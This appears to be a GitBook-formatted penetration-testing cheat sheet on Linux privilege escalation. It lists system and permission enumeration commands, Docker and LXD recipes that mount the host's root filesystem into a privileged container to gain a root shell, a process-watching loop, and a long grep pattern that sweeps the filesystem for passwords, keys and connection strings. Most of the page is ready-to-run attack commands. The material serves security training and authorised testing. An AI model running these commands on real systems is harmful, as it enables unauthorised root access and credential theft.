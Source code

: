 ```yaml
---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Linux Privilege Escalation

## System Info

Obtain information about the system **architecture, distribution, and kernel version**.

{% code overflow="wrap" %}
```sh
uname -a  # System information
lsb_release -a  # Distribution information
getconf LONG_BIT  # System architecture
cat /proc/version  # Kernel version
cat /etc/os-release  # OS details
```
{% endcode %}

## Path

Check if you have **write permissions** for any directory in the PATH.

{% code overflow="wrap" %}
```sh
echo $PATH | tr ':' '\n' | sort -u | xargs -I{} bash -c 'if [ -w "{}" ]; then echo "[+] {}"; fi'
```
{% endcode %}

## Environment Variables

Sometimes we can find password or sensitive information in environment variables.

```sh
env  # Environment variables
set  # Shell variables
```

## Groups

List all the groups users belongs to.

```sh
id [<user>]
groups [<user>]
```

### Docker

If you belong to the **Docker group**, you could **mount the filesystem** within a container and have full access to it, allowing you to modify it.

```sh
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

### LXD/LXC

Similar to Docker, with **LXD/LXC**, we can also **mount the filesystem** within a container, granting full access to it.

{% code overflow="wrap" %}
```bash
# On your machine, download and build an alpine image and transfer it to the host
git clone https://github.com/saghul/lxd-alpine-builder && cd lxd-alpine-builder && sudo ./build-alpine
```
{% endcode %}

```sh
# Import the image
lxc image import ./alpine.tar.gz --alias privimg
# Initialize
lxd init
# Create the containter
lxc init privimg privcont -c security.privileged=true
# Mount the filesystem
lxc config device add privcont privdev disk source=/ path=/mnt/root recursive=true
# Start the container
lxc start privcont
# Interactive shell
lxc exec privcont /bin/sh
```

## Sudo

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```sh
sudo -l
```

## Capabilities <a href="#capabilities" id="capabilities"></a>

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)

```sh
getcap -r / 2>/dev/null
```

## SUID

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```sh
find / -type f -perm -4000 -ls 2>/dev/null
```

## Open Ports

```sh
ss -nltp
netstat -punta
```

## Cron Jobs

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs)

```sh
crontab -l
find / -name "cron*" 2>/dev/null
ls -l /var/log/syslog
ls -l /var/log/cron
```

## Process Monitor

{% code overflow="wrap" %}
```sh
old=$(ps -eo user,cmd); while true; do new=$(ps -eo user,cmd); diff <(echo "$old") <(echo "$new") | grep -E "<|>" | grep -Ev "kworker"; old=$new; done
```
{% endcode %}

{% hint style="info" %}
**You can exclude specific patterns using the `grep -Ev` command.**\
For example, to filter out processes from the current user: **`grep -Ev "kworker|$USER"`**
{% endhint %}

## User Files

```sh
find / -xdev -user $USERNAME 2>/dev/null
```

## Passwords

{% code overflow="wrap" %}
```sh
grep -r -E -n -i \
  -e "(password|passwd|pass|pwd|secret|creds?|credentials?|auth|key|conn(ection)?|pdo|sql)[[:space:]]*[:=][[:space:]]*['\"]?[^[:space:]\'\"]+" \
  -e "db[_-][^[:space:]]*[[:space:]]*[:=][[:space:]]*['\"]?[^[:space:]\'\"]+" \
  -e "define[[:space:]]*\([[:space:]]*['\"]DB_[A-Z_]+['\"][[:space:]]*,[[:space:]]*['\"][^'\"]+" \
  -e "<[^>]*(password|passwd|pass|pwd|secret|creds?|credentials?|auth|key|conn(ection)?|pdo|sql)[^>]*>[^<]+</[^>]*>" \
  -e "['\"](password|passwd|pass|pwd|secret|creds?|credentials?|auth|key|conn(ection)?|pdo|sql)['\"][[:space:]]*:[[:space:]]*['\"][^'\"]+['\"]" \
  -e "[a-zA-Z]+://[^:]+:[^@]+@"
```
{% endcode %}

